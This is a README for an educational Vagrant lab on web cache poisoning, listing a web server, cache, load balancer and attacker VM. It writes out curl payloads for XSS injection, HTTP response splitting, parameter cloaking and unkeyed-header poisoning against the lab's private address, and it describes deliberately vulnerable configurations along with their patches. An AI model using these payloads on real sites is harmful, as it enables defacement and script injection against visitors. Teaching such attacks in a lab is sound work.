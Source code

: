 # Cache Poisoning Lab
***Abioye Oyatoye***

This project is a Vagrant-based local lab designed to explore cache poisoning vulnerabilities, exploit them, and learn how to patch them. It simulates a web application stack with a web server, caching server, load balancer, and attacker machine, providing hands-on experience with cybersecurity concepts like cache key manipulation, HTTP response splitting, and parameter cloaking.

## Project Overview

The lab replicates a realistic web stack to study cache poisoning:

- **Web Server**: Nginx serving static and dynamic content.
- **Caching Server**: Varnish as a reverse proxy with caching capabilities.
- **Load Balancer**: HAProxy distributing traffic.
- **Attacker Machine**: A VM for simulating attacks.
- **Victim Client**: Your host machine to observe the effects.

The setup intentionally introduces vulnerabilities, demonstrates exploitation techniques, and then applies patches to secure the environment.

## Topology

Below is the network topology of the lab:

```mermaid
graph TD
    subgraph Internet[Internet]
        VC[Victim Client<br>Your Host]:::client
        AM[Attacker Machine<br>192.168.50.40]:::attacker
    end
    VC -->|HTTP Requests| LB[Load Balancer Tier<br>HAProxy<br>192.168.50.30]:::loadbalancer
    AM -->|Malicious Requests| LB
    LB --> CS[Caching Tier<br>Varnish<br>192.168.50.20]:::cache
    CS --> WS[Application Tier<br>Nginx Web Server<br>192.168.50.10]:::webserver

    classDef client fill:#f9f,stroke:#333,stroke-width:2px;
    classDef attacker fill:#fdd,stroke:#f00,stroke-width:2px;
    classDef loadbalancer fill:#bbf,stroke:#333,stroke-width:2px;
    classDef cache fill:#bfb,stroke:#333,stroke-width:2px;
    classDef webserver fill:#bfb,stroke:#333,stroke-width:2px;
```

## Prerequisites

Vagrant
VirtualBox (or another Vagrant provider)
Basic knowledge of Linux, networking, and HTTP

## Installing Vagrant on Window

Read, download and install vagrant [here](https://www.geeksforgeeks.org/what-is-vagrant/)

## SnapShot on Installing VirtualBox on Windows System

Go download VirtualBox, go to the official site virtualbox.org and download the latest version for windows.

![Alt Text](https://media.geeksforgeeks.org/wp-content/uploads/20200123114435/VirtualBox-Windows-Download.png)

Then follow the step by step guide [Here](https://www.geeksforgeeks.org/how-to-install-virtualbox-on-windows/)

## Setup Instructions

Clone the Repository:

```bash
git clone git@github.com:Abwonder/Aboiye-DevSecOps-Projects.git
cd cache-poisoning-lab
```

Start the Lab:

```bash
vagrant up
```

This provisions four VMs: web, cache, lb, and attacker.
Access the Components:
    Web Server: 192.168.50.10
    Caching Server: 192.168.50.20
    Load Balancer: 192.168.50.30 (entry point)
    Attacker: 192.168.50.40

Usage
Exploring Vulnerabilities

Cache Key Manipulation:
    From the attacker VM: curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=><script>alert('Hacked')</script>"
    Test as victim: curl <http://192.168.50.30/dynamic.php>
HTTP Response Splitting:
    curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Alice%0d%0aContent-Length:%200%0d%0a%0d%0a><h1>Defaced!</h1>"
Parameter Cloaking:
    curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Normal;user=><script>alert('XSS')</script>"
Unkeyed Headers:
    curl -H "Host: example.com" -H "Accept-Encoding: gzip" "<http://192.168.50.30/dynamic.php?user=><h1>Poisoned</h1>"

Patching Vulnerabilities

Re-provision VMs with updated configs:

```bash

vagrant provision web
vagrant provision cache
vagrant provision lb
```

Retest attacks to verify fixes (see configuration details in the Vagrantfile).

Files

Vagrantfile: Defines and provisions the VMs with initial vulnerable configs and patched versions.
README.md: This file.

## Learning Objectives

Understand how caching works in a web stack.
Exploit common cache poisoning techniques.
Implement mitigations like input sanitization, cache key normalization, and header validation.

## Patching Details

Nginx: Sanitizes input with htmlspecialchars and adds Cache-Control: no-store.
Varnish: Keys on headers, skips caching dynamic content, respects backend cache directives.
HAProxy: Rejects malformed headers and rate-limits requests.

Contributing

Feel free to fork this repo, enhance the lab (e.g., add CDN caching), and submit pull requests!
License

MIT License - feel free to use and modify this lab for educational purposes.
